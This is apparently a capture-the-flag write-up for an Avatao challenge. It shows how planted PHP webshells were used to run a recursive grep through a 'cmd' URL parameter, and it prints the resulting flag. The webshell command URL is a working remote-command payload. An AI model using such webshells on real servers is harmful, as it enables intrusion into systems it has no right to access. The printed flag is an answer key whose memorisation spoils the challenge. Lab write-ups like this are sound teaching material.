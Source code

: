## Method

Our user does not have sufficient priviledges to access the location `/root/root.txt`, so we need to execute priviledge escalation or to find a reference to that file somewhere else (for instance, a script that generated that file).

By use of one of the these webshells ([simple-backdoor.php](simple-backdoor.php), [rome.php](rome.php) or [bash.php](bash.php)) we search recursively through file contents for the string `root.txt`.

A successfull command is:
```https://6b5c2d7659c636b2b7649090795f7894477126e1.next.avatao-challenge.com/img/user.php?cmd=cd%20/tmp;%20grep%20-r%20%22root.txt%22```
and it returns the following data:
```
skripte/conf.sh:echo "FLAG{DZIVI:7283456896-ROOT}" > /root/root.txt
skripte/conf.sh:chown root:root /root/root.txt
skripte/conf.sh:chmod go-rwx /root/root.txt
```

Therefore, the flag is `FLAG{DZIVI:7283456896-ROOT}`.